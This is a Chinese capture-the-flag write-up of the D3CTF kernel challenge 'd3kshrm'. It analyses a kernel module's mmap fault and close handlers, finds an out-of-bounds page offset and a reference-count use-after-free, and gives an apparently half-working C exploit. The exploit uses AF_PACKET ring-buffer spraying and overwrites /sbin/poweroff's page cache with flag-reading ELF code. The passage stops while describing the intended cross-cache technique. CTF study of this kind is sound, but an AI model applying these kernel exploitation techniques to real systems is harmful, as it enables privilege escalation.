# D3CTF-d3kshrm(预期&非预期)题解-先知社区

> **来源**: https://xz.aliyun.com/news/18180  
> **文章ID**: 18180

---

# D3CTF-d3kshrm

令人伤心的一道题，这怎么能是个非预期呢。

## 题目分析

ioctl总共分为4个功能，add、delete、bind、unbind。

```
0x3361626E add
0x74747261 dele
0x746E6162 bind
0x33746172 unbind
```

逆向还原出结构体情况如下：



add功能会给ChunkManager结构体申请0xA0（实际0xC0）大小的堆块，再为其page成员从自定义的kmem\_cache中获取0x1000的堆块，这里0xC0的堆块没有隔离，0x1000的隔离了。



之后会基于传入参数申请n个page（1-0x200）。



最后ChunkManager会存入d3kshrm\_arr数组。





bind就是将指定d3kshrm\_arr[idx]绑定到当前的file->private\_data，使得当前file保留一份ChunkManager的引用，这里会给其进行加引用处理，保证安全性。unbind就是和bind相反，减引用和删除file->private\_data.





然后就是dele功能，当ChunkManager不被引用时，就可以进行释放操作。



这里全过程都进行了owner和加减引用的操作和判断，且都上了锁，故不存在什么漏洞。

重点在于mmap和其相关的ops函数



mmap会检查映射的区间大小是否小于等于page\_num，在范围内才会返回ChunkManager。

因为mmap的延迟绑定机制，所以mmap时不会直接进行对应page区域的返回，而是保存我们的ChunkManager，在我们访问对应内存区域触发缺页异常时再去调用vm\_fault函数从保存的ChunkManager中分配我们的page。和libc延迟绑定机制一样，只有用到时才会触发绑定。



这里我们可以看到v2是我们的pgoff，即我们要访问的page基于start\_address的偏移，如mmap(addr, 0x3000, ...)，我们访问addr+0x2000时，pgoff就为2.

而这里对于pgoff的判断存在问题，pgoff若等于page\_num也会进行分配，此时会发生越界。

而我们的vm\_close函数也存在一个非预期漏洞



这里只要调用了vm\_close函数，就会对我们的ChunkManager进行减引用，这是非法的。因为vm\_close函数由munmap函数触发，我们可以通过申请0x2000的内存，然后munmap(addr, 0x1000), munmap(addr+0x1000, 0x1000)触发两次vm\_close，导致引用计数多减了1。

之后可以通过dele释放我们的ChunkManager，而我们的mmap还保留着ChunkManager的指针，从而造成UAF。

## 非预期打法

### 思路

这个打法在开启kaslr的情况下很难利用，需要使用其他方法泄露page指针。

首先这里UAF是打不了PUAF的，因为vm\_fault会对page进行引用+1的操作。



我们能利用的UAF只有ChunkManager的UAF。

又因为vm\_close会进行owner的检查，所以这里也几乎没法利用。



能利用的只有我们的vm\_fault.

他只有page\_num的检查，以及一个上锁的问题。



lock成员的偏移是0x90，pages成员的偏移是0x88，我们只需要保证某个占位的结构体0x90偏移处为0，0x88偏移指向可控地址或者page指针表，即可进行劫持。

目前没找到能让0x88偏移成员指向page指针表的结构体，但指向可控地址倒是好说，直接利用USMA即可。

通过申请0x12\*0x1000的rx缓冲区，此时就会得到一个0xC0大小的指针结构体，其中0x88偏移处指向我们的可控缓冲区page，0x90处为0，符合要求。

这样就可以在可控缓冲区上布置任意的page指针，再通过vm\_fault得到该指针指向的page。

所以我们的步骤就是：

1. add一个只有3个page的ChunkManager。
2. mmap申请0x3000大小的内存，再munmap释放前0x2000内存。
3. dele掉ChunkManager，再USMA占位。
4. mmap再映射rx缓冲区，构造page指针表，再去触发vm\_fault分配任意page。



### EXP

因为没找到泄露page指针得方法，所以这里只能写个半成exp了。

```
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <stdint.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <linux/if_packet.h>
#include <net/ethernet.h>
#include <linux/sched.h>

void init_io(){
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
}

void binary_dump(char* buf, size_t size, long long base_addr) {
    printf("\033[33mDump:
\033[0m");
    char* ptr;
    for (int i = 0; i < size / 0x20; i++) {
        ptr = buf + i * 0x20;
        printf("0x%016llx:   ", base_addr + i * 0x20);
        for (int j = 0; j < 4; j++) {
            printf("0x%016llx ", *(long long*)(ptr + 8 * j));
        }
        printf("   ");
        for (int j = 0; j < 0x20; j++) {
            printf("%c", isprint(ptr[j]) ? ptr[j] : '.');
        }
        putchar('
');
    }
    if (size % 0x20 != 0) {
        int k = size - size % 0x20;
        printf("0x%016llx:   ", base_addr + k);
        ptr = buf + k;
        for (int i = 0; i <= (size - k) / 8; i++) {
            printf("0x%016llx ", *(long long*)(ptr + 8 * i));
        }
        for (int i = 0; i < 3 - (size - k) / 8; i++) {
            printf("%19c", ' ');
        }
        printf("   ");
        for (int j = 0; j < size - k; j++) {
            printf("%c", isprint(ptr[j]) ? ptr[j] : '.');
        }
        putchar('
');
    }
}

void unshare_setup(void) {
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}

int packet_rx_ring_setup(int block_nr, int block_size, int frame_size, int sizeof_priv, int timeout) {
    int sock = socket(AF_PACKET, SOCK_RAW, htonl(ETH_P_ALL));
    if (sock < 0) {
        perror("socket");
    }

    int version = TPACKET_V3;
    int ret = setsockopt(sock, SOL_PACKET, PACKET_VERSION, &version, sizeof(version));
    if (ret < 0) {
        perror("setsockopt version");
    }
    struct tpacket_req3 req3;
    req3.tp_block_nr = block_nr;
    req3.tp_block_size = block_size;
    req3.tp_frame_size = frame_size;
    req3.tp_frame_nr = (block_size * block_nr) / frame_size;
    req3.tp_retire_blk_tov = timeout;
    req3.tp_sizeof_priv = sizeof_priv;
    req3.tp_feature_req_word = 0;
    ret = setsockopt(sock, SOL_PACKET, PACKET_RX_RING, &req3, sizeof(req3));
    if (ret < 0) {
        perror("setsockopt rx_ring");
    }
    struct sockaddr_ll sa;
    memset(&sa, 0, sizeof(sa));
    sa.sll_family = PF_PACKET;
    sa.sll_protocol = htons(ETH_P_ALL);
    sa.sll_ifindex = if_nametoindex("lo");
    sa.sll_hatype = 0;
    sa.sll_halen = 0;
    sa.sll_pkttype = 0;
    sa.sll_halen = 0;
    ret = bind(sock, (struct sockaddr*)&sa, sizeof(sa));
    if (ret < 0) {
        perror("bind");
    }
    return sock;
}

int rx_spray[0x100];

void spray_rx_ring(int n){
    static int cnt = 0;
    for (int i = cnt; i < cnt + n; i++){
        rx_spray[i] = packet_rx_ring_setup(0x90/8, getpagesize(), getpagesize() / 2, 0, 1000);
    }
}

// void bind_core(int core)
// {
//     cpu_set_t cpu_set;

//     CPU_ZERO(&cpu_set);
//     CPU_SET(core, &cpu_set);
//     sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

//     printf("\033[34m\033[1m[*] Process binded to core \033[0m%d
", core);
// }

int ko_fd = -1, ko_fd2 = -1, spray_fd[0x200];
uint64_t spray_rx_addr[0x1000];

int kadd(int fd, int size){
    return ioctl(fd, 0x3361626E, size);
}

int kdele(int fd, int idx){
    return ioctl(fd, 0x74747261, idx);
}

int kbind(int fd, int idx){
    return ioctl(fd, 0x746E6162, idx);
}

int kunbind(int fd, int idx){
    return ioctl(fd, 0x33746172, idx);
}

int main(){
    // bind_core(0);
    init_io();
    unshare_setup();
    puts("[*] Exploit start.");
    ko_fd = open("/proc/d3kshrm", O_RDWR);
    if (ko_fd < 0){
        puts("[-] Device open failed.");
        exit(0);
    }
    kadd(ko_fd, 3);
    if (kbind(ko_fd, 0) < 0){
        puts("[-] kbind failed.");
        exit(0);
    }
    uint64_t addr = mmap(0xdeadbef000, 0x3000, PROT_WRITE|PROT_READ, MAP_SHARED, ko_fd, 0);
    if (addr <= 0){
        puts("[-] Mmap failed.");
        exit(0);
    }
    munmap(addr, 0x1000);
    munmap(addr + 0x1000, 0x1000);
    if (kdele(ko_fd, 0) < 0){
        puts("[-] Kdele failed.");
        exit(0);
    }

    puts("[*] Spraying rx ring.");
    spray_rx_ring(0x80);
    puts("[+] Success spray rx ring.");

    getchar();
    int pfd[2], pwfd;
    size_t offin = 0, offout = 0;
    if (pipe(pfd) < 0){
        puts("[-] Create pipe failed.");
        exit(0);
    }
    pwfd = open("/sbin/poweroff", O_RDONLY);
    if (pwfd < 0){
        puts("[-] Open poweroff failed.");
        exit(0);
    }

    if (splice(pwfd, &offin, pfd[1], NULL, 0x1000, 0) <= 0){
        puts("[-] Failed to splice.");
        exit(0);
    }

    uint64_t page;
    printf("Please input the page structure's address: ");
    scanf("%p", &page);
    for(int i = 0; i < 0x80; i++){
        spray_rx_addr[i] = mmap(NULL, 0x12*0x1000, PROT_WRITE|PROT_READ, MAP_SHARED, rx_spray[i], 0);
        if (spray_rx_addr[i] <= 0){
            printf("[*] Max spray mmap number is %lx
", i);
            break;
        }
        *(uint64_t*)(spray_rx_addr[i]+0x1000*0x11+0x10) = page;//0xffffea00000dba00
    }
    uint64_t a = *(uint64_t*)(addr+0x2000);
    if (a != 0x3010102464c457f){
        puts("[-] Page have some problem?");
        exit(0);
    }
    unsigned char orw_elfcode[] = { 0x7f,0x45,0x4c,0x46,0x2,0x1,0x1,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x2,0x0,0x3e,0x0,0x1,0x0,0x0,0x0,0x78,0x0,0x40,0x0,0x0,0x0,0x0,0x0,0x40,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x40,0x0,0x38,0x0,0x1,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x1,0x0,0x0,0x0,0x5,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x40,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x40,0x0,0x0,0x0,0x0,0x0,0xb7,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0xb7,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x10,0x0,0x0,0x0,0x0,0x0,0x0,0x48,0xbf,0x2f,0x66,0x6c,0x61,0x67,0x0,0x0,0x0,0x57,0x48,0x89,0xe7,0x48,0x31,0xf6,0x48,0x31,0xd2,0xb8,0x2,0x0,0x0,0x0,0xf,0x5,0x48,0x89,0xc7,0x48,0x89,0xe6,0xba,0x0,0x1,0x0,0x0,0x48,0x31,0xc0,0xf,0x5,0xbf,0x1,0x0,0x0,0x0,0x48,0x89,0xe6,0xba,0x0,0x1,0x0,0x0,0xb8,0x1,0x0,0x0,0x0,0xf,0x5 };
    memcpy(addr+0x2000, orw_elfcode, sizeof(orw_elfcode));
    puts("[*] Exploit end.");
    return 0;
}
```

## 预期打法

### 思路

因为是这里得pgoff越界，那么得先构造触发越界的调用链。



因为mmap函数映射时检查的是区域大小>>12是否小于等于page\_num，所以这里不存在越界问题。



仔细看我们的vm\_ops，可以发现只注册了vm\_fault、vm\_close两个必要的成员函数，mremap之类的函数都没注册。



而mremap函数是用于重新申请我们的内存区域的，将区域变大或者变小，正常情况下会调用我们vm\_ops中的vm\_mremap来进行范围检查的，但这里没注册，则没有进行范围检查，系统默认的mremap会直接将重新申请的区域保留下来，当访问时把问题扔给vm\_fault处理。

故我们可以通过mmap(addr, MAX\_PGSIZE...)申请一个最大的内存区域，再通过mremap(addr, MAX\_PGSIZE, MAX\_PGSIZE+0x1000)申请一个更大的内存区域，此时系统会正常返回，当我们访问(addr+MAX\_PGSIZE)时就会触发vm\_fault进行page的检查和获取，即可触发我们的越界访问。

现在要做的就是构造堆风水，使得ChunkManager->pages+0x1000处保存一个page指针。

又因为前文提到，pages是通过kmem\_cache分配的，所以我们得打Cross Cache Attack。



我的第一思路是先利用USMA Spray喷射大量的page并间隔释放指定区域的page，再通过申请完kmem\_cache中所有的slub，使得kmem\_cache从伙伴系统重新获取page作为新slub，将slub控制到我们的喷射区域，释放剩下的间隔page再去分配大量的0x1000大小的pipe\_buffer，如下图所示。

